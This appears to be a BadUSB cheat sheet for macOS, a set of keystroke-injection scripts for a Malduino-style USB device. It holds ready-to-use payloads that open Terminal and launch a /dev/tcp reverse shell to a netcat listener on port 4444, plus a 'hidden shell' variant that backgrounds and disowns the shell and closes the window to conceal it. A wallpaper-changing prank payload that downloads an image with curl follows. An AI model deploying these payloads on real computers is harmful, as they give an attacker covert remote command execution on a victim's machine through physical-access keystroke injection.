 # BadUSb cheatsheet for OSX

http://malduinow.tools/index.html

## Launch a command 

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING whoami
	ENTER
	LED 0 255 255

## Reverse shell 
Listener

	nc -lvp 4444
	
Payload

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	GUI n
	DELAY 500
	STRING exec 5<>/dev/tcp/127.0.0.1/4444
	ENTER
	STRING cat <&5 | while read line; do $line 2>&5 >&5; done
	ENTER
	LED 0 255 255

Hidden Shell

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING exec 5<>/dev/tcp/127.0.0.1/4444
	ENTER
	STRING cat <&5 | while read line; do $line 2>&5 >&5; done
	ENTER
	DELAY 500
	CTRL z
	DELAY 500
	STRING bg
	ENTER
	STRING disown
	ENTER
	GUI w
	ENTER
	LED 0 0 255

## Change wallpaper

Code (make sure it works and modify the payload accordingly)

	curl https://www.kolpaper.com/wp-content/uploads/2020/10/Walking-Duck-Wallpaper-HD.jpg -o /var/tmp/image.jpg
	
	osascript -e 'tell application "Finder" to set desktop picture to POSIX file "/var/tmp/image.jpg"'
	
Payload

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING curl https://cdn3.geckoandfly.com/wp-content/uploads/2015/09/android-windows-mac-iphone-prank-4.jpg -o /var/tmp/VWltOoz.jpg
	ENTER
	ENTER
	DELAY 500
	STRING osascript -e 'tell application "Finder" to set desktop picture to POSIX file "/var/tmp/VWltOoz.jpg"'
	ENTER
	ENTER
	DELAY 200
	GUI w
	ENTER
	ENTER
	LED 0 255 255
